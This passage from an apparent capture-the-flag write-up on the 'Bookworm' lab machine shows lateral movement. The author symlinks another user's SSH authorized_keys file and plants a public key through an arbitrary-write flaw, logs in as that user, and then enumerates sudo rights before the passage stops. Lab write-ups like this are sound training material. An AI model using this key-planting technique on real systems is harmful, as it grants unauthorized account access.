 That looks like arbitrary write as neil.

#### SSH

From frank’s home directory, I’ll write a new link pointing to neil’s `authorized_keys` file:

```

frank@bookworm:~$ ln -s /home/neil/.ssh/authorized_keys pwn.txt

```

I’ll send my public SSH key targeting the link:

![image-20240117114050471](/img/image-20240117114050471.png)

Now when I try to SSH as neil, it works:

```

oxdf@hacky$ ssh -i ~/keys/ed25519_gen neil@bookworm.htb
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-167-generic x86_64)
...[snip]...
neil@bookworm:~$ 

```

## Shell as root

### Enumeration

#### sudo

neil is able to run the `genlabel` script as root:

```

neil@bookworm:~$ sudo -l
Matching Defaults entries for neil on bookworm:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User neil may run the following commands on bookworm:
    (ALL) NOPASSWD: /usr/local/bin/genlabel

```

Only root can run it, and it takes an order it:

```

neil@bookworm:~$ genlabel
-bash: /usr/local/bin/genlabel: Permission denied
neil@bookworm:~$ sudo genlabel
Usage: genlabel [orderId]

```

